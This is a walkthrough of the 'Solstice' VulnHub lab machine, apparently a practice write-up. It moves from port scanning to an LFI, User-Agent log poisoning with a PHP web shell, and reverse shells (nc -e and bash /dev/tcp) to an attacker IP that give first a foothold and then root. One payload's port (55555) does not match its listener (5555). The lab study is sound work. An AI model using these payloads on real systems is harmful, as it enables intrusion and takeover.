







# Solstice

| Name        | Solstice                      |
| ----------- | ----------------------------- |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

## Host
```shell
192.168.203.72
```
## Enumeration
### Nmap
```shell
nmap -Pn 192.168.203.72
nmap -Pn 192.168.203.72 -sC -sV
nmap -Pn 192.168.203.72 -p- --min-rate=1000

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
2121/tcp open  ccproxy-ftp
3128/tcp open  squid-http

8593/tcp  open  unknown
54787/tcp open  unknown
62524/tcp open  unknown

nmap -Pn 192.168.203.72 -p8593,54787,62524 -sV -sC
```

### FTP
We tried to connect to the FTP service in port 21 but anonymous authentication was not permitted. Then we tried port 2121 and we could connect as anonymous.
```shell
ftp 192.168.203.72 2121

cd pub
```
- Only one directory was found with cero information
### SMTP
We connected to the mail service too but again we didn't find relevant information.
```shell
telnet 192.168.203.72 25
```

### Web Enumeration
We started enumerating the services but we could not find anything relevant, then we are going to continue enumerating the web servers we have access to:
```shell
http://192.168.203.72/
http://192.168.203.72:8593/
http://192.168.203.72:54787
```
- One found with a basic nmap scan and two with a scan of all ports

In the first and third ones we found a just a blank page, but in the second one we found a simple web page with two hyperlinks:


When we click the "Book List" link a GET query is made:
```shell
http://192.168.203.72:8593/index.php?book=list
```
- Then we can try something like LFI or maybe SQLi. 

Let's try first LFI:
```shell
http://192.168.203.72:8593/index.php?book=./../../../../etc/passwd
```

- Look at that, we can read files from the server

From our initial enumeration we know this is a Apache web server and in this moment we have LFI, then if we could have access to the server log files we could try a Log Poisoning attack.
## Foothold
### Log Poisoning 
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log
```

Now we can try the log poison with a web shell in the User-Agent header.
```shell
curl -s "http://192.168.203.72" -A "<?php system(\$_GET['cmd']); ?>"
```

- Look how in the red line the space for the User-Agent header is blank (last camp), then our poisoning worked
#### Web Shell
We just need to execute commands in the uploaded web shell:
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log&cmd=id
```

- We are in!!!

### Reverse Shell
#### Listener
```shell
nc -lnvp 4444
```
#### Execute Reverse Shell
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log&cmd=nc+192.168.45.152+4444+-e+/bin/bash
```


#### Improving Pseudo Console
```shell
script /dev/null -c bash
ctrl +z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Privilege Escalation
We can start with our basic techniques for privilege escalation:
```shell
sudo -l
find / -user root -perm /4000 2>/dev/null

/var/tmp/sv
```
- Look at that, looking for SUID we found a directory that looks like have SUID rights?, that's weird, we don't know how to escalate privileges with just a directory, let's see if there are something there

```shell
ls /var/tmp/sv

index.php
```

- And there is only one file

Let's stop here an run a tool:
### Linpeas
We need to transfer the binary to the victim machine, we can do this we a python http server.
```shell
chmod +x ./linpeas.sh

./linpeas.sh
```

We start reading the output of this tool and we find something weird in the running processes section:

- We have a process which owner is `root` running a php web server (`php -S 127.0.0.1:57`) in the folder with SUID rights and the `index.php` file


**The point here is that the user running the web server is `root`. For example we obtained in [Foothold](#Foothold) a reverse shell with the `www-data` user because he was the owner of the process running the web server, then if we edit or create a `php` file with a reverse shell in this web server and visit it we will obtain a connection to a listener.**

### Root Reverse Shell
We can edit the existing `php` file with a file editor like `vim, nano` or we can use the `echo` command to replace the content directly:
```shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.152/5555 0>&1'");?>
<?php system('nc 192.168.45.152 5555 -e /bin/bash')?>

echo "<?php system('nc 192.168.45.152 55555 -e /bin/bash')?>" > index.php
```
#### Listener
```shell
nc -lnvp 5555
```
#### Executing Reverse Shell
We can't visit the web server because we don't have a GUI to open a web navigator, but we can use the following tool:
```shell
curl 127.0.0.1:57
```
- This will made a request directly to `/index.php` and we will obtain our reverse shell

- If we wanted to visit the web page in a web navigator we could have made a tunnel with port forwarding and then visit the URL of the server in our forwarded port:
```shel
http://127.0.0.1:6666
```


